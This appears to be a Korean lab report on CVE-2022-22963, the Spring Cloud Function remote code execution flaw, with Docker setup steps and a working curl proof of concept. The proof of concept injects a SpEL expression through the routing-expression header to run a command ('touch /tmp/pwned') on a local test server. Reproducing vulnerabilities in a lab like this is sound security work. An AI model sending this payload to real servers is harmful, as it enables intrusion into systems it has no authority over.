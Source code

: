 # CVE-2022-22963 (Spring Cloud Function RCE) 보고서


## 1. 요약
CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 버전에서 발생하는 원격 코드 실행(RCE) 취약점
공격자는 HTTP 요청의 `spring.cloud.function.routing-expression` 헤더를 조작하여 서버에서 임의의 시스템 명령어를 실행


## 2. 환경 구성 및 실행
1. `docker-compose up -d` 명령어로 테스트트 환경 실행
2. `localhost:8080/functionRouter`에 접속해서 서버가 실행되고 있는지 확인
3. curl 명령어로 RCE PoC 공격
4. 도커 컨테이너의 /tmp 디렉토리에서 pwned 파일 확인


## 3. 취약점 검증 (PoC)
- PoC 방식: HTTP POST 요청에 조작된 헤더를 삽입하여 시스템 명령어 실행 시도

**PoC 명령어:**
```bash
curl -X POST "http://localhost:8080/functionRouter" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/pwned\")" -d "test"
```


## 4. 결과
![curl PoC 캡처](./1.png)
![결과 캡처](./2.png)

